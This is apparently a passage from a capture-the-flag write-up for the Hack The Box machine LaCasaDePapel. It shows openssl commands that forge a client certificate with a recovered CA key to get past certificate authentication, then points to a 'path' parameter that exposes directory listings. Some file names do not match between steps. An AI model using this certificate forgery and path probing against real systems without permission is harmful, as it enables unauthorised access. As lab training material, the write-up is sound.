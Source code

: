 
To create client certificate, we have to generate a Private Key and Certificate Signing Requests(CSR)<br/>
`openssl req  -newkey rsa:2048 -nodes -keyout mykey.key -out mykey.csr`
<br/>


The next step is to create a client certificate by using `ca.key`<br/>
`openssl x509 -req -in mykey.csr -CA lacasadepapel_htb.crt -CAkey ca.key -out myclient.pem -set_serial 01 -days 365`
<br/>


To import this certificate to Firefox, we have to convert it into PKCS12 format.<br/>
`openssl  pkcs12 -export -inkey domain.key -in client.pem -out client.p12`
<br/>
<br/>
I imported `client.pk12` in Firefox and reloaded the web page.
<br/>
<img src="/images/hackthebox/lacasa/privatearea.png" width="90%">
<br/>


We can see a nice private area. After clicking around, I found something interesting. The url `https://10.10.10.131/?path=SEASON-1` uses `path` to search for files.
If we enter a valid path following the `path=`, we can read the contents of the directories.
<br/>